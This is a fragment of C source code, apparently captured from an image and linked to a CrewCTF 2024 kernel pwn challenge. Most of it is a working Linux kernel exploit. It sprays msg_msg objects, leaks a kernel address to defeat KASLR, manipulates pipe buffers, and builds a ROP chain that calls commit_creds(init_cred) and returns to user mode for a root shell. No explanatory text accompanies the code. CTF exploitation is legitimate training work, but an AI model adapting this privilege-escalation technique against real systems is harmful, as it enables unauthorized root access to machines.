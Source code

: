 ```c
    }

    head[3] = 0;
    memcpy(buffer+0xfd0,&head,sizeof(head));
    del(0);
    for( int i = 0xc0 ; i < 0xe0 ; i ++)
        msgSend(mids[i],0xfd0+0x7d0-8,buffer);

    recv = msgPeek(mids[found],0x2000);
    size_t page = *(size_t *)(&recv->mtext[0x7d0]);
    info(hex(page));
    size_t *ptr = &recv->mtext[0x7e0];
    head[3] = *ptr;
    del(0);
    memcpy(buffer+0xfd0,&head,sizeof(head));
    for( int i = 0xe0 ; i < 0x100 ; i ++)
        msgSend(mids[i],0xfd0+0x7d0-8,buffer);
    recv = msgPeek(mids[found],0x2000);
    del(0);
    for(int i = 0x20 ; i < 0x40; i++){
        pipeBufferResize(pipe_fd[i][0],32);
        pipeBufferResize(pipe_fd[i][1],32);
    }

    ptr = recv->mtext+0xfd0;
    size_t base = *ptr-0x4db8c0;
    
    warn(hex(base));
    debug();
    del(0);
    size_t ppp[] = {0xffffffff810b52c3- NO_ASLR_BASE + base,0,cur+0x500,0,0};



    size_t rdi = 0xffffffff82012efd- NO_ASLR_BASE + base; 
    size_t init_cred = 0xffffffff82c875a0- NO_ASLR_BASE + base;
    size_t mc = 0xffffffff81137500- NO_ASLR_BASE + base;
    size_t ret2user = 0xffffffff822012dc- NO_ASLR_BASE + base;
    size_t iretq = 0xffffffff8220184e - NO_ASLR_BASE + base;

    size_t rop_chain[0x20] ;
    size_t idx = 0 ; 
    rop_chain[idx++]  = rdi ;
    rop_chain[idx++]  = init_cred;
    rop_chain[idx++]  = mc;
    rop_chain[idx++]  = ret2user;
    rop_chain[idx++]  = 0 ; 

    rop_chain[idx++]  = iretq ;
    rop_chain[idx++]  = shell;
    rop_chain[idx++]  = user_cs;
    rop_chain[idx++]  = user_rflags;
    rop_chain[idx++]  = user_sp;
    rop_chain[idx++]  = user_ss;


    size_t retX = 0xffffffff81321fbd - NO_ASLR_BASE + base; 
    size_t fake_op[] = {retX,retX,retX,retX};
    memcpy(buffer,ppp,sizeof(ppp));
    memset(buffer+sizeof(ppp),1,0x500-sizeof(ppp));
    memcpy(buffer+0x500,fake_op,sizeof(fake_op));
    

```

[0]: https://github.com/sajjadium/ctf-archives/tree/0610daa3bdd02bc9056b84fdd69f96132ce27c2f/ctfs/CrewCTF/2024/pwn/KUlele
[1]: TBD
